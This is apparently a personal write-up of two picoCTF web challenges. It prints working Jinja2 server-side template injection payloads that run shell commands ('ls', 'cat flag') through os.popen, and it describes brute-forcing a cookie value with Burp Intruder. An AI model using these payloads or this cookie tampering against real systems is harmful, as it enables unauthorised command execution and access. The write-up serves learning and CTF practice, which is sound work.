








# Web Gauntlet
---
# SSTI1 

Was provided with a website: http://rescued-float.picoctf.net:61245/ 

Its a python server, so its most probably gonna be jinja2. I found this using Burp Suite by examining the server name in the GET requests.   


As the name of the challenge suggests, I have to implement server side template injection.
I learnt what is Server Side Template Injection using the reference provided in the end.  
This is how the website looks like: 


On providing input of hello, the website is redirected to  http://rescued-float.picoctf.net:61245/announce and displays this:  


Providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 
Now  I can begin crafting my payload 

My ultimate aim is to check what files are there on the server and then read those files to get the flag. 
What I need to do is do remote command execution, basically run, 'ls', 'cat' etc. on the server via the template injection. 

After referring to the reference provided below, I created this payload: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Output: 
```
# __pycache__ app.py flag requirements.txt
```
What this does is basically , runs the command `ls`  on the server and returns its output. 
Break down: 
1. `request.application` - Accesses the Flask application object through request context
2. `__globals__` - Gets the global variables of the application module 
3. `.__builtins__` - Accesses Python's built-in functions (like `open`, `eval`, `__import__`, etc.)
4. `.__import__('os')` - Imports the `os` module
5. `.popen('id')` - Opens a pipe to execute the `id` command in the shell. `popen()` runs shell commands and returns a file-like object
6. `.read()` - Reads the output from the command

Now as I know the file `flag` is present in the present working directory. I can read it using`cat`. 

Input: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Output: 
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

flag:`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`
#### What is SSTI ? 

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like:

```htmlmixed=
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the `{{ip}}` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

### Reference: 

https://onsecurity.io/article/server-side-template-injection-with-jinja2/

---
# Cookies 

Description: 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

### Solve: 

Every time I do a webex challenge I open up the website in burpsuite for analysis. 

This is how the website looks like: 



lets input the default 'snickerdoodle' value and check whats happening in the background 

This is what's happening: 



/(GET) -> /search(POST) -> /check(GET) 

After giving input, a POST request is sent to the server which checks if the given cookie is present or not. Whatever result is achieved from `/search` , we are redirected to `/check` where final output is shown. 

Output: 




We need to find which cookie contains the flag. 

On examining the POST request(`/search`): 



It sends the input, in this case snickerdoodle to the server to check whether its the correct cookie or not.  

On examining the `/check`  GET request: 



it returns if the given input is a cookie present in the website or not. 

Next step was to try different inputs. 

I looked up different types of cookies and input `chocolate chip` and it turns out that it was a cookie on the website, but not the one which is the flag. 

On examining the `/check` request after I input `chocolate chip`, this is what I found: 

```
GET /check HTTP/1.1
Host: mercury.picoctf.net:21485
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:21485/
Accept-Encoding: gzip, deflate, br
Cookie: name=1
Connection: keep-alive
```

`Cookie: name=1` -> the value of name has incremented from 0 to 1 

I sent this GET request to the intruder to check every value from 0 to 30, just to check which one contains the flag. 



This is what I got after the attack: 



I checked the response of every request. 

The response which contained 
`Cookie: name=18` contained the flag. 



flag: `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`


### What are cookies? 

A cookie is a small block of data created by a web server while a user it browsing a website and placed on the user's computer or other device by the user's web browser. 

Cookies are placed on the device used to access a  website, and more than one cookie may be placed on a user's device during a session. 

Reference: 
https://en.wikipedia.org/wiki/HTTP_cookie

